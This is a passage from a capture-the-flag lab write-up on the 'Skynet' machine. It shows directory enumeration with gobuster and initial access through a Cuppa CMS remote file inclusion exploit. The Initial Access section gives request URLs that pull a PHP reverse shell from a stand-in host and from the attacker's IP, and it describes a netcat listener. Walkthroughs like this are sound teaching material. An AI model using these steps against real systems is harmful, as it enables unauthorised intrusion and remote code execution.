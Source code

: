 Only really one file of interest /notes/important.txt

```highlight
└──╼ $cat important.txt 

1. Add features to beta CMS /45kra2{REDACTED}
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

A new cms directory to probe, looking at the page it appears to be a blog page for Miles.

![miles](/assets/images/skynet/miles.png)

Running gobuster again against the directory reveals a administrator page.

```highlight
└──╼ $gobuster dir -u http://10.10.120.207/45kra2{REDACTED}/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.120.207/45kra2{REDACTED}/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/24 16:48:27 Starting gobuster
===============================================================
/administrator (Status: 301)
===============================================================
2021/01/24 16:50:42 Finished
===============================================================
```

### Initial Access

Going to http://10.10.120.207/45kra2{REDACTED}/administrator/ takes us to a login page for Cuppa CMS. A quick Google reveals the [exploit](https://www.exploit-db.com/exploits/25971) which provides and local and remote file inclusion. 

Looking at the exploit we can simply request a URL with our shell code location. We can use this to get a reverse shell payload from our machine and then execute.

> http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?

On my machine I copied /usr/share/webshells/php/php-reverse-shell.php to my working directory and renamed it to shell.php, I updated the configuration to include my VPN IP and port 4444.

Then using python3 I started a http server to host the reverse shell payload and started a netcat listener on port 4444. In my browser I entered:

http://10.10.120.207/45kra2{REDACTED}/administrator/alerts/alertConfigField.php?urlConfig=http://{{ATTACKIP}}/shell.php
